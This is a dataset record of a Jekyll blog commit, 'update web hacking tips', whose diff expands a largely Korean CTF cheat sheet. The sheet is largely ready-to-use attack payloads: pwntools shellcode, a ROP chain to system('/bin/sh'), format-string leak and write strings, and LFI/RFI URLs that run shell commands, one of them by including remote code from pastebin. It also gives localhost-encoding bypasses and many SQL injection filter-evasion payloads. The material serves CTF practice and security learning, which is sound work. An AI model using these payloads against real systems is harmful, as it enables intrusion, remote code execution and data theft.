

Before and after one commit to realsung/realsung.github.io_backup, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 1439 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown.

Commit message:
update web hacking tips

````diff
--- a/_posts/2019-3-7-CTF-tips.md
+++ b/_posts/2019-3-7-CTF-tips.md
@@ -9,38 +9,79 @@ sitemap :
   priority : 1.0
 ---
 
-* file 명령어로 봤을 때 stripped 돼있고 main 함수가 안 보인다면 start로 가면 libc_start_main으로 콜하는 데 그 중에서 첫번째 인자로 들어가는 주소가 main함수이다.
 
-* pwntools 쉘코드 생성
 
-  ```python
-  asm(shellcraft.amd64.sh(), arch='amd64')
-  ```
+# Binary Tips
 
-* 64 Bit ROP
+```
+file 명령어로 봤을 때 stripped 돼있고 main 함수가 안 보인다면 start로 가면 libc_start_main으로 콜하는 데 그 중에서 첫번째 인자로 들어가는 주소가 main함수이다.
+```
 
-  ```markdown
-  [buf] +  gadget [pop rdi; ret] + [/bin/sh string addr] + [system addr]
-  ```
 
-* 함수 오프셋
 
-  ```python
-  printf_off = e.symbols['printf']
-  system_off = e.symbols['system']
+> pwntools Create Shellcode
 
-  libc_base = printf - printf_off
-  system = libc_base + system_off
+```python
+asm(shellcraft.amd64.sh(), arch='amd64')
+```
 
-  binsh = libc_base
-  binsh += e.search('/bin/sh').next()
-  ```
+
+
+> pwntools libc symbol
+
+```python
+leak_libc = ELF('./leak_libc')
+libc_system = libc_base_addr + leak_libc.symbols['system']
+```
+
+
+
+> 64 bit ROP
+
+```
+[buf] +  gadget [pop rdi; ret] + [/bin/sh string addr] + [system addr]
+```
+
+
+
+> Function Offset
+
+```python
+printf_off = e.symbols['printf']
+system_off = e.symbols['system']
+
+libc_base = printf - printf_off
+system = libc_base + system_off
+
+binsh = libc_base
+binsh += e.search('/bin/sh').next()
+```
+
+
+
+> FSB
+
+스택 내 주소 한번에 출력
+
+스택의 1337번째의 값을 hex 값으로 출력 (info leak)
+
+```c
+printf("%LENGTH$08x"); -> printf("%1337$08x");
+```
+
+주소 값 한 번에 변조
+
+스택의 12번째의 값에 저장되어 있는 주소에 앞에 출력된 바이트 수만큼 덮음
+
+```c
+printf("%LENGTH$n"); -> printf("%12$n");
+```
 
 
 
 # Python Tips
 
-XOR Tip
+> XOR
 
 두 개의 문자 xor연산 할 때 itertools cycle 모듈 사용해서 인덱스가 끝나도 처음으로 가서 계속 xor 연산 가능
 
@@ -62,8 +103,6 @@ print flag
 
 # Web Tips
 
-### POST
-
 > Use python requests
 
 ```python
@@ -72,20 +111,156 @@ import requests
 req = requests.post('주소', data={'name': value, cookies={'PHPSESSID': session})
 ```
 
-> Use cURL
-
-```shell
-curl -d "id=admin&pw=admin&press=Login" 주소
+```python
+import requests
+head={'user-agent': 'Test'}
+req = requests.get(ADDRESS, headers=head)
 ```
 
 
 
-### Header
+> Use cURL
 
-> Use python requests
+```shell
+curl -d "id=admin&pw=admin&press=Login" ADDRESS
+```
 
-```python
-import requests
-head={'user-agent': 'Test'}
-req = requests.get('주소', headers=head)
+```shell
+curl ADDRESS -H 'header: header' --data 'data=data'
 ```
+
+
+
+> LFI & RFI
+
+```
+http://URL/?page=php://filter/convert.base64-encode/resource=index.php
+
+http://URL/?page=php://filter/convert.base64-decode/resource=./upload/abcde
+
+http://URL/?page=data://text/plain,%3Cxmp%3E%3C?php%20system($_GET[%27x%27]);&x=ls%20-al
+
+http://URL/?page=http://pastebin.com/raw/abcd/?&x=ls%20-al
+```
+
+
+
+> 127.0.0.1
+
+```
+http://2130706433
+
+http://0x7f000001
+
+http://0x7f.0x00.0x00.0x01
+
+http://017700000001
+
+http://0177.000.000.01
+```
+
+
+
+> MySQL
+
+```
+다음 라인 : %0a //주석처리를 하더라도 다음 줄로 넘겨버리면 무시된다.
+주석 처리 : -- # ;%00 /**/
+파라미터가 두개 있을경우 \를 입력해 뒤의 '를 무력화 후 쿼리문을 스트링화 시키고 뒤에 파라미터에 exploit을 수행할 수 있다.
+%0a 말고도 %0b 등 대신 쓰일 수 있는 여러문자들이 있다.
+비교 문자 : = like in strcmp()
+문자 자르기 : strcmp left right mid Function
+and == &&, or ==||
+if ord Function Filtering : conv(hex(substr(pw,1,1)),16,10)
+공백 대신 : /**/ %09 %0a ()
+IF(substr(lpad(bin(ord(substr(password,1,1))),8,0),1,1)
+```
+
+
+
+> SQLI
+
+String Filtering [ preg_match - ex) admin]
+
+```php
+admin : 0x61646d696e
+  			0b0110000101100100011011010110100101101110
+  			char(0x61, 0x64, 0x6d, 0x69, 0x6e)
+```
+
+
+
+Blind SQL Injection Equal(=) Filltering
+
+```php
+substr('abc',1,1)like('a')
+if(strcmp(substr('abc',1,1),'a'),0,1)
+substr('abc',1,1)%20in('a')
+```
+
+
+
+substr Filtering
+
+```php
+right(left('abc',1),1)
+id > 0x41444d4941 'ADMIN' > 'ADMIA'(hex)
+```
+
+
+
+ereg, eregi
+
+```php
+'admin' Filtering -> 'AdmIN' bypass
+FRONT %00 INSERT -> 뒤에 문자 필터링 처리 안됨
+```
+
+
+
+replace, replaceAll, str_replace
+
+```php
+'admin' Filtering -> 'adadminmin'
+										 'admadminin'
+										 'admdmiadmdmiinin'
+```
+
+
+
+Numeric Character Filtering
+
+```php
+0 -> '!'='@' -> false
+1 -> '!'='!' -> true
+```
+
+
+
+White Space Filtering (%20)
+
+```
+%20 -> %0a %0b %0c %0d %09
+```
+
+
+
+Single Quoter Filtering (%27)
+
+```php
+Use Double Quote in Single Quote
+if '\' not Filtering
+-> select TEST from TABLE where id='\' and pw=' or 1#
+parameter : id=\&pw=%20or%201%23
+```
+
+
+
+Comment Injection
+
+```php
+'#'의 주석 범위는 1 line이다. 1 line을 나누는 기준은 %0a로 나눈다.
+-> select test1 from TABLE where id='abc'# and pw='%0a or id='admin'%23
+'/* */'
+-> select test1 from TABLE where id='abc'/* and pw=''*/ or id='admin'%23
+```
````
